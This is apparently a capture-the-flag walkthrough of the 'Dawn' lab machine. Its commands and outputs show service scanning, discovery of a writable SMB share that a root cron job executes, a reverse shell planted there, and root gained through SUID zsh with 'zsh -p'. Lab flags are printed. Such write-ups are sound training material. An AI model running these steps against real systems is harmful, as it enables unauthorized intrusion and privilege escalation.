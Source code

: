 Nmap reveals four ports open:

```bash
PORT     STATE SERVICE     REASON  VERSION
80/tcp   open  http        syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       syn-ack MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 15
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, Speaks41ProtocolNew, LongColumnFlag, InteractiveClient, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsCompression, ConnectWithDatabase, SupportsLoadDataLocal, ODBCClient, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: NCBaDlv,u+s$T\Re&+F\
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: DAWN
```

Check out smb:
```bash
$ smbmap -H 192.168.122.11
[+] IP: 192.168.122.11:445      Name: 192.168.122.11
        Disk                    Permissions     Comment
        ----                    -----------     -------
        print$                  NO ACCESS       Printer Drivers
        ITDEPT                  READ, WRITE     PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT 
												AUTHORIZED TO USETHIS SYSTEM LEAVE IMMEADIATELY.
        IPC$                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```
ITDEPT is nonstandard. List its contents:
```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/dawn]
└─$ smbmap -H 192.168.122.11 -R 'ITDEPT'
[+] IP: 192.168.122.11:445      Name: 192.168.122.11
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ITDEPT                                                  READ, WRITE
        .\ITDEPT\*
        dr--r--r--                0 Fri Mar  3 13:52:27 2023    .
        dr--r--r--                0 Wed Jul 22 13:19:41 2020    ..
```
There's nothing here, but I can write to it.
![1](screenshots/1.png)

Check out the web service on port 80. It's just the standard Apache Ubuntu default page. Fuzz it:
```bash
$ gobuster dir -u http://192.168.122.11/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.11/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/03 13:51:24 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/index.html           (Status: 200) [Size: 791]
/logs                 (Status: 301) [Size: 315] [--> http://192.168.122.11/logs/]
/server-status        (Status: 403) [Size: 302]
Progress: 4523 / 4615 (98.01%)===============================================================
2023/03/03 13:51:43 Finished
```

Checking logs, there are a list of files. All but one I can access: management.log

![2](screenshots/2.png)

Examinging it, I see that, periodically, there is a cronjob that is executing two files located in the ITDEPT directory. These files are called web-control and product-control.
```bash
2020/08/12 09:03:02 ESC[31;1mCMD: UID=1000 PID=939    | /bin/sh -c /home/dawn/ITDEPT/product-control ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=???  PID=938    | ???ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=???  PID=937    | ???ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=33   PID=936    | /bin/sh -c /home/dawn/ITDEPT/web-control ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=33   PID=940    | /bin/sh -c /home/dawn/ITDEPT/web-control ESC[0m
<SNIP>
2020/08/12 09:06:01 ESC[31;1mCMD: UID=0    PID=978    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control ESC[0m
2020/08/12 09:06:01 ESC[31;1mCMD: UID=0    PID=977    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control ESC[0m
```

Since I can write to ITDEPT, I make a reverse shell script and upload it. I set up a netcat listener, then catch the shell as dawn:
![3](screenshots/3.png)
![4](screenshots/4.png)
```bash
dawn@dawn:~$ whowhoami
dawn
dawn@dawn:~$ id
uid=1000(dawn) gid=1000(dawn) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
dawn@dawn:~$ hostname
dawn
dawn@dawn:~$ hostname -I
192.168.122.11
dawn@dawn:~$ cat local.ttx
cat: local.ttx: No such file or directory
dawn@dawn:~$ cat local.txt
a61f316fdd5373ba6f337d62a3b94eb5
```
![5](screenshots/5.png)

Search for SUID binaries:
```bash
dawn@dawn:/tmp$ finfind / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
/home/dawn/ITDEPT
```
`zsh` is listed. Execute it with the `-p` flag to become root:

```bash
dawn@dawn:/tmp$ zsh -p
dawn# cd /root     cd /root
cd /root
dawn# ls           ls
ls
flag.txt  proof.txt
dawn# cat proof.txtcat proof.txt
cat proof.txt
09f5fc4b56fbcb6b77a8ef7920afda20
dawn# whoami       whoami
whoami
root
dawn# id           id
id
uid=1000(dawn) gid=1000(dawn) euid=0(root) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
dawn# hostname -I  hostname -I
hostname -I
192.168.122.11
```

![6](screenshots/6.png)

